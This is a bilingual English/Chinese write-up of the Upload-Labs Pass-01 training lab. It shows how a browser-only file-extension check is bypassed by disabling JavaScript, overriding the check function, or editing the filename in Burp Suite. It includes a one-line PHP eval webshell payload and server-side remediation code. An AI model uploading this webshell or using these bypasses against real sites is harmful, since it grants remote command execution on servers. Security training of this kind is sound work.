






# Upload-Labs Pass-01 Writeup

**[English](#english) | [中文](#中文)**

---

<a name="english"></a>
## 🇬🇧 English

### Challenge Overview

| Item | Details |
|------|---------|
| **Challenge** | Pass-01 |
| **Type** | Client-side JavaScript Validation |
| **Difficulty** | ⭐ Easy |
| **Vulnerability** | Front-end only file extension check |

### Objective

Upload a webshell to the server.

### Source Code Analysis

```javascript
function checkFile() {
    var file = document.getElementsByName('upload_file')[0].value;
    if (file == null || file == "") {
        alert("请选择要上传的文件!");
        return false;
    }
    // Define allowed file types
    var allow_ext = ".jpg|.png|.gif";
    // Extract file extension
    var ext_name = file.substring(file.lastIndexOf("."));
    // Check if extension is allowed
    if (allow_ext.indexOf(ext_name + "|") == -1) {
        var errMsg = "该文件不允许上传，请上传" + allow_ext + "类型的文件,当前文件类型为：" + ext_name;
        alert(errMsg);
        return false;
    }
}
```

### Vulnerability Analysis

This is a **client-side only** validation mechanism. Key indicators:

| Evidence | Explanation |
|----------|-------------|
| `document.getElementsByName` | DOM manipulation - browser-only API |
| `alert()` | Browser popup function |
| `return false` | Prevents form submission in browser |
| Visible in page source | Client-side code is exposed |

**Why is this vulnerable?**

The validation runs entirely in the user's browser. Once bypassed, the server receives the file without any secondary checks. The server trusts whatever passes through the "front gate."

### How to Identify Front-end vs Back-end Validation

| Method | Front-end Behavior | Back-end Behavior |
|--------|-------------------|-------------------|
| **Speed** | Instant error popup (<0.1s) | Loading delay before error |
| **Network** | No request sent (check DevTools/Burp) | POST request visible |
| **Page Refresh** | No page reload | Page reloads after submission |

### Exploitation Methods

#### Method 1: Disable JavaScript (Recommended for beginners)

**Steps:**

1. Open Chrome DevTools (`F12`)
2. Press `Ctrl+Shift+P` (Windows/Linux) or `Cmd+Shift+P` (Mac)
3. Type `javascript` and select **"Disable JavaScript"**
4. Upload your PHP file directly



**Result:** The validation function never runs, and the file is submitted directly.



> The broken image icon indicates the server tried to display the uploaded "image" but it's actually PHP code.

#### Method 2: Console Function Override

**Steps:**

1. Open DevTools Console (`F12` → Console tab)
2. Execute: `checkFile = function() { return true; }`
3. Upload your PHP file



This redefines the validation function to always return `true`, effectively disabling all checks.

#### Method 3: Burp Suite Interception

**Scenario:** When you want to keep JS enabled but still bypass the check.

**Steps:**

1. Rename your webshell: `shell.php` → `shell.jpg`
2. Configure Burp Suite proxy and enable interception
3. Select `shell.jpg` and click upload (JS validation passes)
4. In Burp, find the intercepted request and modify:
   ```
   filename="shell.jpg"  →  filename="shell.php"
   ```
5. Forward the modified request



> Note: The screenshot shows JS still blocking in Burp's embedded browser. For this method, use a properly renamed .jpg file first.

### Payload

**File:** `muma.php`

```php
<?php phpinfo(); ?>
```

For a real penetration test, you would use:

```php
<?php @eval($_POST['cmd']); ?>
```

### Proof of Concept

**Step 1:** Attempt to upload `muma.php` - blocked by JavaScript



**Step 2:** After disabling JavaScript, upload succeeds


**Step 3:** Access the uploaded file at `/upload/muma.php`



### Key Takeaways

| Concept | Description |
|---------|-------------|
| **Client-side validation is not security** | It's merely UX improvement |
| **Always verify server-side** | Never trust client input |
| **Defense in depth** | Implement multiple validation layers |

### Remediation

```php
// Server-side validation example
$allowed_ext = array('jpg', 'png', 'gif');
$file_ext = strtolower(pathinfo($_FILES['upload_file']['name'], PATHINFO_EXTENSION));

if (!in_array($file_ext, $allowed_ext)) {
    die("File type not allowed!");
}

// Additional checks: MIME type, file content magic bytes, etc.
```

---

<a name="中文"></a>
## 🇨🇳 中文

### 挑战概览

| 项目 | 详情 |
|------|------|
| **关卡** | Pass-01 |
| **类型** | 前端 JavaScript 校验 |
| **难度** | ⭐ 简单 |
| **漏洞** | 仅前端文件后缀检查 |

### 目标

上传一个 webshell 到服务器。

### 源码分析

```javascript
function checkFile() {
    var file = document.getElementsByName('upload_file')[0].value;
    if (file == null || file == "") {
        alert("请选择要上传的文件!");
        return false;
    }
    // 定义允许上传的文件类型
    var allow_ext = ".jpg|.png|.gif";
    // 提取上传文件的类型
    var ext_name = file.substring(file.lastIndexOf("."));
    // 判断上传文件类型是否允许上传
    if (allow_ext.indexOf(ext_name + "|") == -1) {
        var errMsg = "该文件不允许上传，请上传" + allow_ext + "类型的文件,当前文件类型为：" + ext_name;
        alert(errMsg);
        return false;
    }
}
```

### 漏洞分析

这是一个**纯前端**校验机制。判断依据：

| 证据 | 解释 |
|------|------|
| `document.getElementsByName` | DOM 操作 - 浏览器专属 API |
| `alert()` | 浏览器弹窗函数 |
| `return false` | 在浏览器端阻止表单提交 |
| 可在页面源码中看到 | 前端代码完全暴露 |

**为什么存在漏洞？**

校验完全运行在用户浏览器中。一旦被绕过，服务器会直接接收文件而没有任何二次检查。服务器完全信任通过"前门"的一切。

### 如何判断前端校验 vs 后端校验

| 方法 | 前端校验表现 | 后端校验表现 |
|------|------------|-------------|
| **速度** | 瞬间弹窗 (<0.1秒) | 有加载延迟后报错 |
| **网络** | 无请求发出 (DevTools/Burp 可验证) | 可见 POST 请求 |
| **页面刷新** | 页面不刷新 | 提交后页面刷新 |

### 绕过方法

#### 方法一：禁用 JavaScript（推荐新手使用）

**步骤：**

1. 打开 Chrome 开发者工具（`F12`）
2. 按下 `Ctrl+Shift+P`（Windows/Linux）或 `Cmd+Shift+P`（Mac）
3. 输入 `javascript`，选择 **"停用 JavaScript"**
4. 直接上传 PHP 文件


**结果：** 校验函数根本不会运行，文件直接提交。


> 破损的图片图标表明服务器尝试显示上传的"图片"，但实际上是 PHP 代码。

#### 方法二：控制台函数覆写

**步骤：**

1. 打开开发者工具控制台（`F12` → 控制台标签）
2. 执行：`checkFile = function() { return true; }`
3. 上传 PHP 文件


这会重新定义校验函数，使其永远返回 `true`，从而有效禁用所有检查。

#### 方法三：Burp Suite 拦截

**场景：** 当你想保持 JS 启用但仍要绕过检查时。

**步骤：**

1. 重命名你的 webshell：`shell.php` → `shell.jpg`
2. 配置 Burp Suite 代理并启用拦截
3. 选择 `shell.jpg` 并点击上传（JS 校验通过）
4. 在 Burp 中找到拦截的请求并修改：
   ```
   filename="shell.jpg"  →  filename="shell.php"
   ```
5. 放行修改后的请求


> 注意：截图显示 Burp 内置浏览器中 JS 仍在阻止。使用此方法时，需要先将文件重命名为 .jpg。

### Payload

**文件：** `muma.php`

```php
<?php phpinfo(); ?>
```

实际渗透测试中，你会使用：

```php
<?php @eval($_POST['cmd']); ?>
```

### 漏洞复现

**步骤 1：** 尝试上传 `muma.php` - 被 JavaScript 拦截


**步骤 2：** 禁用 JavaScript 后，上传成功


**步骤 3：** 访问上传的文件 `/upload/muma.php`


### 核心要点

| 概念 | 描述 |
|------|------|
| **前端校验不是安全措施** | 它仅仅是用户体验改善 |
| **必须服务端验证** | 永远不要信任客户端输入 |
| **纵深防御** | 实施多层校验机制 |

### 修复建议

```php
// 服务端校验示例
$allowed_ext = array('jpg', 'png', 'gif');
$file_ext = strtolower(pathinfo($_FILES['upload_file']['name'], PATHINFO_EXTENSION));

if (!in_array($file_ext, $allowed_ext)) {
    die("不允许的文件类型！");
}

// 额外检查：MIME 类型、文件内容魔数等
```

---

## References / 参考资料

- [Upload-Labs GitHub](https://github.com/c0ny1/upload-labs)
- [OWASP File Upload Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/File_Upload_Cheat_Sheet.html)
